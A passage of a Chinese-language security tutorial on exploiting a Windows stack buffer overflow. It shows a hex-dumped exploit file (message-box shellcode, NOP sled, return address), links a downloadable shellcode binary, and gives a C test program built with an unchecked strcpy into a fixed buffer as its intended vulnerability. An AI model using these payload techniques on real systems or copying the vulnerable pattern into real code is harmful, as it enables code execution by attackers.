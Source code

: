 00000000h: 33 DB 53 68 77 65 73 74 68 66 61 69 6C 8B C4 53 ; 3跾hwesthfail嬆S
00000010h: 50 50 53 B8 EA 07 D5 77 FF D0 90 90 90 90 90 90 ; PPS戈.誻袗悙悙?
00000020h: 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 ; 悙悙悙悙悙悙悙悙
00000030h: 90 90 90 90 7C FB 12 00                         ; 悙悙|?.



最终程序运行如图，栈溢出在我们的测试系统上触发成功

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-2-24/2-3.png)

## 0x03 弹框实例shellcode在栈溢出的优化
---

上节简单介绍了一下栈溢出实例的原理和操作方法，本节将要介绍如何优化我们自己开发的shellcode，即弹框实例shellcode，结合具体漏洞，实现利用


弹框实例shellcode下载地址：

https://github.com/3gstudent/Shellcode-Generater/blob/master/shellcode.bin


shellcode长度1536


**(1) 修改实例程序，使其数组足以保存我们的shellcode**

完整代码如下：

```
#include <stdio.h>
#include <windows.h>
#define PASSWORD "1234567"

int verify_password (char *password)
{
	int authenticated;
	char buffer[1556];
	authenticated=strcmp(password,PASSWORD);
	strcpy(buffer,password);
	return authenticated;
}

int main()
{
	int valid_flag=0;
	char password[2048]={0};
	FILE *fp;
	if(!(fp=fopen("password2.txt","rb")))
		return 0;
	fread(password,1568,1,fp);
	valid_flag=verify_password(password);
	if(valid_flag)
	{
		printf("wrong\n");
	}
	else
	{
		printf("right\n");
	}
	fclose(fp);
	return 0;
}
```
